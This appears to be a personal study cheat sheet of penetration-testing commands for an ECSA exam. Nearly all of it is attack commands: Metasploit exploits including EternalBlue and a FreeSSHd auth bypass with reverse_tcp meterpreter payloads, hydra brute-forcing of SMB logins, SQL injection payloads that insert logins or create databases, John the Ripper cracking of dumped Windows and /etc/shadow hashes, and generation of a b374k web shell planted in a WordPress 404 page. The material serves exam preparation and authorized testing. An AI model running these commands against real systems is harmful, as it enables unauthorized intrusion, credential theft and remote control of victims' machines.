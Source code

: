 # ECSA-Test Exam

#FTP

metasploit auxiliary/scanner/ftp/anonymous

or 

nmap -p 21 --script ftp-anon 172.19.19.8 

#RPC #NFS
Searching for miscofigured RPC services and NFS
namp -T4 -A 172.20.20.0/24

used also auxiliary/scanner/nfs/nfsmount

Below would display rpc services: 
rpcinfo -p 172.20.20.14 

showmount --export 172.20.20.14

Mounting resource:
sudo mkdir /var/backups
sudo mount -t nfs 172.10.10.14:/backups /root/backups


#SNMP 

use auxiliary/scanner/snmp/snmp_login

When users identified used for #SMB:

hydra -L fileWithUsers.txt -P fileWIthPasswords.txt 172.222.22.22 smb

after that use psexec in measploit


#SSH
use exploit/windows/ssh/freesshd_authbypass for WebOnlyDO

background it

i set session 1
ii. set payload windows/meterpreter/reverse_tcp
iii. set lhost 172.19.19.7

on windows metasploit exploit ms14_058_track_popup_menu


# SQL injection

blah' or 1=1 -- 
blah';insert into login values ('user','user123'); --
blah';create database somedatabase; --

sqlmap -u "www.somesite.com" --method POST --data "data from the injection test" --dbs
                                                                                -D dtabasename --tables

                                                                                -D hotel -T tablename --dump

                                                                                
 #Windows #eternalblue                                                                  In case of use auxiliary/scanner/smb/smb_ms17_010

use exploit/windows/smb/eternalblue_doublepulsar

set rhost target_IP
set processinject lsass.exe
set targetarchitecture x64
set payload windows/x64/meterpreter/reverse_tcp
set lhost localipaddress - of attacker

adjust architecture and inject process if needed



## Local attack machine to receive connection

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp


## John the Riper usage
export CPUID_DISABLE=1
john --format=nt /root/Desktop/hashes.txt - if hashes are dumped from the OS 



## passwords from Linux

unshadow password.txt shadow.txt > unshadow
files are from /etc/shadow and /etc/passwd

after 
export CPUID_DISABLE=1
john unshadow


## Wordpress 

wpscan --url http://ip_address/wordpress --enumerate p

Possible replacement of 404 page with b374k-master - tool would generate shell.php like this

php -f index.php -- -o shell.php -s -b -z gzcompress -c 9

For wordpress possible exploit/unix/webapp/wp_admin_shell_upload 

